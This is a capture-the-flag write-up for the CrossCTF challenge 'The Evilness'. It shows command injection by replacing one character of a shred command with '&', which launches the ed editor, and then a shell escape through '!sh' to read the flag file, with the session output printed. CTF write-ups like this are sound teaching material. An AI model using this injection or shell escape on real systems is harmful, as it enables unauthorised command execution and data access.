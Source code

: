 # The Evilness

## Challenge

> Ready for something ridiculously difficult?
> 
> nc ctf.pwn.sg 4020

## Solution

*We didn't solve this challenge and this writeup is inspired by the writeups at the end of this document.*

If we nc to `ctf.pwn.sg 4020`, we are shown the Python script [theevilness.py](theevilness.py) and prompted with:

```
Here comes the shredder! (/usr/bin/shred /tmp/cartoon-N4KVtr.dat)
```

From the provided Python script [theevilness.py](theevilness.py), we can observe that it:
* Creates a new temporary file
* Writes the flag to this temporary file
* Prepares a command that deletes/shreds this temporary file:
    ```
    /usr/bin/shred /tmp/cartoon-N4KVtr.dat
    ```
* Allows the user to modify one character of this command

We can replace the 12-th character of this command (`r`) with the character `&` so as to modify the command to be:

```
/usr/bin/sh&ed /tmp/cartoon-N4KVtr.dat
```

The [single `&` character](http://bashitout.com/2013/05/18/Ampersands-on-the-command-line.html) delimits the following commands that are run asynchronously:

```
/usr/bin/sh
```

```
ed /tmp/cartoon-N4KVtr.dat
```

where `ed` is the command for [Ed](http://www.gnu.org/software/ed/manual/ed_manual.html), a GNU line-oriented text editor.

Interacting with `ctf.pwn.sg` on port 4020, we supply the inputs `11` (corresponds to 12th character) and `26` (hex representation of `&`):

```
Here comes the shredder! (/usr/bin/shred /tmp/cartoon-N4KVtr.dat)
11
26
sh: 1: /usr/bin/sh: not found
Newline appended
62
```

We are presented with the command prompt of Ed. Using `.` to print out the contents of the temporary file,

```
.
LOL YOU THOUGHT THIS WOULD BE SO EASY? GET A SHELL YOU DWEEB.
```

We are given another hint that instructs us to get a shell. Using `!` run commands on the shell (to open another shell), we find the flag present in the working directory and print out its contents:

```
!sh
ls
flag
flag.py
requirements.txt
theevilness.py
cat flag
CrossCTF{it5_th3_r34ln3ss_th3_r3alness}
```

## Other writeups

* [NUS OSI Layer 8 writeup](https://osilayer8.cf/crossctf-finals2018/misc/evil/README/)
